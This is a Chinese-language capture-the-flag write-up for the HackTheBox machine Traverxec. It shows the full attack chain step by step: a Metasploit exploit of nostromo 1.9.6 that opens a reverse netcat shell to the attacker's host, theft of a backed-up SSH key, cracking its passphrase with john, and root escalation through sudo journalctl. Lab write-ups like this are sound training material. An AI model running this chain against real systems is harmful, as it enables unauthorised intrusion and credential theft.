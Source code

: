 # Traverxec

## 环境

平台：HackTheBox

攻击机：Kali（IP：10.10.15.145）

靶机：Traverxec（IP：10.10.10.165）

地址：https://www.hackthebox.eu/home/machines/profile/217

## Let's go

```
nmap -A 10.10.10.165
```

![](./img/Traverxec-01.png)

> **浏览网页并没有发现什么信息，但是搜索发现nostromo1.9.6具有漏洞**

```
msfconsole
search nostromo
use 0
info
```

![](./img/Traverxec-02.png)
![](./img/Traverxec-03.png)

```
set rhosts 10.10.10.165
set payload cmd/unix/reverse_netcat_gaping	 #建议
set lhost 10.10.15.145
set lport 4444
run
```

![](./img/Traverxec-04.png)

```
python -c 'import pty;pty.spawn("/bin/bash")';
cd /var/nostromo/conf
cat nhttpd.conf
```

![](./img/Traverxec-05.png)
![](./img/Traverxec-06.png)

>**拿到的密文放到服务器去跑，半天没出来。。。**
>**上面并没有发现public_www目录，怀疑在david中**

```
cd /home/david/public_www
cd protected-file-area
ls -la
```

![](./img/Traverxec-07.png)

```
base64 backup-ssh-identity-files.tgz                    #通过base64传输文件
vim 64                                                  #写入64文件
cat 64 | base64 -d > backup-ssh-identity-files.tgz      #解码输出
tar -zxvf backup-ssh-idntity-files.tgz
```

![](./img/Traverxec-08.png)

![](./img/Traverxec-09.png)

> **使用私钥登陆发现需要密码，使用john进行破解**

```
cd home/david/.ssh/
python /usr/share/john/ssh2john.py id_rsa > passwd
john --wordlist=/usr/share/wordlists/rockyou.txt passwd
```

![](./img/Traverxec-10.png)

```
ssh david@10.10.10.165 -i ./id_rsa
```

![](./img/Traverxec-11.png)

```
cd bin
cat server-stats.sh
```

![](./img/Traverxec-12.png)

> **查询发现journalctl可以提权，推荐网站：https://gtfobins.github.io/**

```
#需要调整终端窗口大小，跟less类似
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/bash
cd
cat root.txt
```

![](./img/Traverxec-13.png)